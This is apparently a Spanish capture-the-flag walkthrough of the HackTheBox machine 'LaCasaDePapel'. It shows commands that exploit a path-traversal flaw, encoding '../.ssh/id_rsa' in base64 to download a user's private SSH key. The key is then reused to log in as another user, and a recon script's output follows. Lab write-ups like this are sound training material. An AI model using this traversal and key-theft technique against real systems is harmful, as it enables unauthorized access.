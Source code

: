 Si importamos tanto la `ca.key` como el certificado `hackthebox.pkcs12`, podemos acceder a la web del puerto 443.

Esta nos muestra una serie de archivos, los capitulos de las dos temporadas en video (vacíos obviamnete, pero la máquina parece imitar entonces un
porta pirata). 

- Tenemos el parámetro `?path=SEASON-1`, que lista directorios, sabemos que la ruta completa es `/home/berlin/downloads/SEASON-1`, tambien que este usuario tiene una llave privada a la que no podíamos acceder. Pero el parametro es para directorios solo, no archivos, 

Si ponemos `../.ssh` salen los archivos, pero no podemos descargarlos

- Al descargar los archivos de video, vemos que hace una petición `GET` a `/file` mas una cadena de caracteres que parece base64, en efecto, así es
```bash
$: echo "U0VBU09OLTEvMDIuYXZp" | base64 -d
SEASON-1/02.avi
```

Así que hacemos lo mismo para hacernos con la llave privada
```bash
$: echo -n "../.ssh/id_rsa" | base64 -w0
Li4vLnNzaC9pZF9yc2E= 
```

Intentamos acceder a `berlin` pero no nos lo permite
```bash
$: ssh -i id_rsa berlin@10.10.10.131
berlin@10.10.10.131's password:
```

Pero tenemos mas usuarios, se intenta uno a uno hasta que
```bash
$: ssh -i id_rsa professor@10.10.10.131

 _             ____                  ____         ____                  _
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|

lacasadepapel [~]$ echo $SHELL
/bin/ash
```

Si subo mi script de reconocimiento: 
```bash
  >  Carpetas home de los diferentes usuarios
berlin >
lrwxrwxrwx  1 berlin berlin    9 Nov  6  2018 .ash_history -> /dev/null
drwx------  2 berlin berlin 4096 Jan 31  2019 .ssh
...
professor >
lrwxrwxrwx 1 root      professor    9 Nov  6  2018 .ash_history -> /dev/null
drwx------ 2 professor professor 4096 Jan 31  2019 .ssh
-rw-r--r-- 1 root      root        88 Jan 29  2019 memcached.ini
-rw-r----- 1 root      nobody     434 Jan 29  2019 memcached.js
drwxr-sr-x 9 root      professor 4096 Oct  3  2022 node_modules

           PROCESOS   

PID   USER     TIME  COMMAND
...
 3129 root      0:02 /usr/bin/vmtoolsd
 3159 memcache  0:00 /usr/bin/memcached -d -p 11211 -U 11211 -l 127.0.0.1 -m 64 -c 1024 -u memcached -P /var/run/memcached/memcached-11211.pid
```